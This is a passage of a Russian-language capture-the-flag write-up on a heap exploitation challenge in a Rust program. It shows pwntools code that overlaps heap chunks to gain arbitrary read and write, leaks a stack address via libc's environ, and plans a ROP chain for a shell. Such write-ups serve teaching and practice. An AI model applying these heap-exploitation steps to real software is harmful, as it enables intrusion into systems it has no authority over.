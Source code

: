 ```python
io.sendlineafter(PT, b'2')
```

### Примитивы arbitrary read/write

Применим ту же идею еще раз, однако теперь пересечем чанки полностью, тем самым получив примитивы
arbitrary read (опция 3) и write (опция 4). Получение оболочки тривиально: ликаем адрес стека и
записываем на него ROP цепочку

```python
# Overlap whole exercise chunk with controllable description
f3, f4 = gen_buf(0x18), gen_buf(0x18)
add(f3, cyclic(0x48))
add(b'arb_read2', cyclic(0x48))

victim2 = gen_buf()
add(victim2, cyclic(0x18))
plan({victim2: 0})

add(f3, cyclic(0x18))
add(b'arb_read2', cyclic(0x18))
add(gen_buf(0x18), cyclic(0x18))

add(victim2, b'foo')

for i in range(0x30):
    io.sendlineafter(MENU, b'3')
    io.sendline(b'3')

add(gen_buf(0x18), cyclic(0x18))

add(b'control2', flat([1, 1, 8, libc.sym['environ'], 8, 8, HEAP_BASE, 8]))
```

### Собираем вместе

<details><summary><b>Эксплоит</b></summary></details>

Подводя итог, хочется сказать, что за время решения задания я достаточно настрадался: его решение
заняло почти сутки (с учетом переписывания эксплоита) и под конец мозг уже полностью отключался,
а самой сложной частью стало отслеживание состояние кучи (и влияние стандартной библиотеки rust'а
на нее). Задание крутое, потраченного времени нисколько не жаль

![Отправка формы обратной связи задания](challenge_submit_feedback.png)
